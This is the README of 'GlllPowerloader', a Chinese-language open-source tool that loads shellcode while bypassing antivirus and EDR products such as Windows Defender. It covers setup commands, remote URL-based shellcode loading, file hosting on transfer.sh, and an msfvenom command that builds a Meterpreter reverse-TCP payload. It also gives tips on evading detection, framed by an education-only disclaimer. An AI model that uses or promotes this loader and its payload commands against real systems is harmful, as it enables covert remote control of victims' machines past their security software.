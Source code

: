 # GlllPowerloader
- [GlllPowerloader](#glllpowerloader)
- [1.前言](#1前言)
- [2.功能](#2功能)
- [3.使用](#3使用)
  - [0x01.环境安装](#0x01环境安装)
  - [0x02.使用方法](#0x02使用方法)
  - [0x03.视频演示](#0x03视频演示)
- [4.更新](#4更新)
- [5.免责声明](#5免责声明)
- [6.致谢](#6致谢)



# 1.前言

* 视频讲解：https://www.bilibili.com/video/BV1RK411z7XA/  欢迎点赞关注

- 刚开始可以免杀主流杀软的，不过后面肯定会被乱杀，开源的目的是学习恶意代码和自动化脚本
- 本人并不推荐shellcode加密，一般的加密算法都会使程序熵增，可以使用远程加载和图片隐写的方式分离shellcode

# 2.功能



|       功能       |                描述                |
| :--------------: | :--------------------------------: |
|   1.免杀加载器   | 各种方式加载shellcode，绕过AV/EDR  |
|  2.文件格式转换  |    Windows中文件格式之间的转换     |
| 3.自动化文件托管 | 将文件托管到：https://transfer.sh/ |



# 3.使用

## 0x01.环境安装

您必须下载并安装以下环境：

1.Mingw64(C/C++)：https://github.com/niXman/mingw-builds-binaries/releases/download/12.2.0-rt_v10-rev2/x86_64-12.2.0-release-posix-seh-msvcrt-rt_v10-rev2.7z

解压完以后，将bin目录添加至环境变 量即可

使用Git下载项目

```
git clone https://github.com/INotGreen/GlllPowerloader.git
cd GlllPowerLoader-master
pip install -r requirements.txt
start.bat
```



## 0x02.使用方法

- 大部分已经不能免杀了，不过稍微改一下还是能过主流AV
- 必须保证你的shellcode是干净的，否则还是会被Windows Defender抓住，您可以学习[Reflective DLL Injection](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)和[sRDI](https://github.com/monoxgas/sRDI/tree/master)来自定义shellcode
- 如果你在使用的过程中被defender查杀了，有可能是您使用的C2工具shellcode内存被抓住了，而不一定是加载器的问题
- 加载方式采用URL分离加载，所以你需要将shellcode（bin文件）上传或者托管至网站，并且记下URL


Metasploit:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.0 LPORT=4488 -f raw -o payload.bin
```



## 0x03.视频演示



![示例GIF](https://github.com/INotGreen/GlllPowerloader/blob/main/Image/demo.gif)

# 4.更新

[+] 2022年12.21，Powerloader发布

[+]2023 年11.15， 删除冗余的功能，优化代码，（之前的版本涉及语言安装环境太多了，使用太麻烦，为了简便就留C/C++的加载器）

[+]2023年11.20，免杀defender，360，火绒（前提是shellcode内存是没有被标记的）

免杀加载器正在更新中。。。


# 5.免责声明

该工具仅用于网络安全教育和研究，禁止用于非法途径，我对您由使用或传播等由此软件引起的任何行为和/或损害不承担任何责任。您对使用此软件的任何行为承担全部责任，并承认此软件仅用于教育和研究目的。下载本软件或软件的源代码，您自动同意上述内容。

# 6.致谢

https://github.com/icyguider/Shhhloader
